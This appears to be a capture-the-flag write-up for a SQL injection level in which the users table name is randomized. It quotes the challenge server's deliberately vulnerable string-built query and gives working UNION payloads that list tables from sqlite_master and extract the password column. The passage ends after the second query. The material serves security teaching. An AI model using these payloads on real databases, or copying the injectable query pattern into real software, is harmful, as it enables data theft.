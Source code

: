     So far, the database structure has been known to you (e.g., the name of the users table), allowing you to knowingly craft your queries. As a developer, you might be tempted to prevent this by, say, randomizing your table names, so that an attacker can't specify them to query data that they are not supposed to. Unfortunately, this is not the slam dunk that you might think it is.

    Databases are complex and much too clever for their own good. For example, almost all modern databases keep the database layout specification itself in a table. Attackers can query this table to get the table names, field names, and whatever other information they might need!

    In this level, the developers have randomized the name of the (previously known as) users table. Find it, and find the flag!

    - my solution:
    - /challenge/server:
            ...
            db = TemporaryDB()

            random_user_table = f"users_{random.randrange(2**32, 2**33)}"
            db.execute(f"""CREATE TABLE {random_user_table} AS SELECT "admin" AS username, ? as password""", [open("/flag").read()])
            # https://www.sqlite.org/lang_insert.html
            db.execute(f"""INSERT INTO {random_user_table} SELECT "guest" as username, "password" as password""")


            @app.route("/", methods=["GET"])
            def challenge():
                query = flask.request.args.get("query", "%")

                try:
                    # https://www.sqlite.org/schematab.html
                    # https://www.sqlite.org/lang_select.html
                    sql = f'SELECT username FROM {random_user_table} WHERE username LIKE "{query}"'
                    print(f"DEBUG: {query=}")
                    results = "\n".join(user["username"] for user in db.execute(sql).fetchall())
            ...

        Query:

        SELECT username FROM REDACTED WHERE username LIKE "%" UNION SELECT tbl_name FROM sqlite_master --"
            (QUERY: %" UNION SELECT tbl_name FROM sqlite_master --)

        Results:

        admin
        guest
        users_5229999126


        Query:

        SELECT username FROM REDACTED WHERE username LIKE "%" UNION SELECT password FROM REDACTED --"
            (QUERY: %" UNION SELECT password FROM users_5229999126 --)
